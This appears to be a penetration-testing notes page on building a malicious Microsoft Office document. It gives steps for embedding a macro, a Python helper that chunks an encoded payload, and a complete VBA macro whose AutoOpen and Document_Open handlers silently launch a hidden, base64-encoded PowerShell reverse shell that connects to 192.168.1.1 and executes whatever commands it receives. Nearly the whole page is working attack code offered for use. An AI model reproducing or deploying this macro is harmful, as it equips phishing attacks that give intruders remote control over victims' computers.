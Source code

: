 ```yaml
---
description: >-
  Credit:
  https://cel1s0.gitbook.io/offsec-notes/readme/windows/office-macro/microsoft-office
---
```


# Microsoft Office

Choose VIEW ribbon and selecting Macros option. We type name for the macro and in the MACROS in drop-down menu, select the name of document, then the macro will be add. When we click create, a simple macro framework will be add into our document. We have to save the document as either .docm or the older .doc format. They support embedded macros, .docx format does not.

{% embed url="https://www.revshells.com/" %}

![](<../../../.gitbook/assets/image (29).png>)

We have to edit the payload. We change related part of payload variable.&#x20;

```python
#!/usr/bin/python

payload = "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad..."

n=50

for i in range(0, len(payload), n):
	print "Str = Str + " + '"' + payload[i:i+n] + '"'
```

```vba
Sub AutoOpen()
    Evil
End Sub

Sub Document_Open()
    Evil
End Sub
s
Sub Evil()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad"
    Str = Str + "AAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdAB"
    Str = Str + "lAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDA"
    Str = Str + "GwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxACI"
    Str = Str + "ALAA4ADAAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAa"
    Str = Str + "QBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB"
    Str = Str + "5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2A"
    Str = Str + "DUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGk"
    Str = Str + "AIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAe"
    Str = Str + "QB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgB"
    Str = Str + "nAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhA"
    Str = Str + "CAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHA"
    Str = Str + "AZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQ"
    Str = Str + "QBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB"
    Str = Str + "0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApA"
    Str = Str + "DsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQ"
    Str = Str + "AZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAc"
    Str = Str + "gBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQA"
    Str = Str + "gACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgA"
    Str = Str + "CsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACI"
    Str = Str + "AOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAd"
    Str = Str + "AAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQA"
    Str = Str + "uAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrA"
    Str = Str + "DIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHM"
    Str = Str + "AZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZ"
    Str = Str + "QAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgB"
    Str = Str + "sAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvA"
    Str = Str + "HMAZQAoACkA"
    CreateObject("Wscript.Shell").Run Str
End Sub
```
